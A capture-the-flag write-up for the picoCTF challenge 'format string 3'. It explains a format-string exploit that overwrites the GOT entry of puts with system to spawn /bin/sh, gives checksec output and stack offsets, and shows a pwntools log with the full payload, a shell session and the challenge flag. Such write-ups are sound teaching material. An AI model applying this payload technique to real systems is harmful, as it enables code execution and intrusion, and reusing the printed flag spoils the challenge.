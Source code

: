 # format string 3

Format-string Exploit + GOT Overwrite

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/format-string-3/format-string-3_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'.'
```

No PIE so the address of the GOT is fixed

Partial RELRO so we can overwrite the GOT with a format string exploit (see https://ir0nstone.gitbook.io/notes/types/stack/relro)

## Core Idea

The core idea is to overwrite the GOT entry of `puts` with the libc function of `system`. The big hint of this is as `puts` is called with the `normal_string` string, which is actually `/bin/sh`. 

We note that `puts` will already have been called before our malicious use of it, so the dynamic linker will not load the libc address of `puts` to overwrite our malicious entry. 

Also, since `puts` is not called after the GOT overwrite and before our intended use, so our overwriting of the GOT is guaranteed not to cause an error before the execution of `system('/bin/sh')`. 

## Offsets

From staring at the assembly, the following buffers are at these addresses relative to the stack frame

```c
rbp-0x410 => buf
rbp-0x510 / rsp => all_strings (array of 32 8-byte char pointers)
```

Notice from [format-string-3.c](./format-string-3.c) that `printf(buf)` is called with one argument. So `%6$p` will start pulling off the stack and leaking null-initialized (and thus not useful) `all_strings` buffer, since that refers to the seventh argument in the variable argument list of `printf`. 

To control the addresses that we write to, we need to specify arguments to be taken from `buf`. Since `buf - flag = 0x100`, we see that the first 8 bits of `buf` is referenced with `%38$p` (since `6 + 0x100//8 = 38`), or can be interpreted as an address to be written to with `%38$n`. 

The offset to be passed into pwntool's FmtStr object is thus 38. 

## Flag

We use pwntools to automate payload generation to obtain the flag (see [solve.py](./solve.py)). 

```bash
[+] Opening connection to rhea.picoctf.net on port 64607: Done
[*] repr(payload)="b'%1888c%46$lln%21c%47$hhn%25c%48$hhn%81c%49$hhn%12c%50$hhnaaaabaa\\x18@@\\x00\\x00\\x00\\x00\\x00\\x1d@@\\x00\\x00\\x00\\x00\\x00\\x1c@@\\x00\\x00\\x00\\x00\\x00\\x1b@@\\x00\\x00\\x00\\x00\\x00\\x1a@@\\x00\\x00\\x00\\x00\\x00'"
[*] Switching to interactive mode

$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_7a2369d3}
```
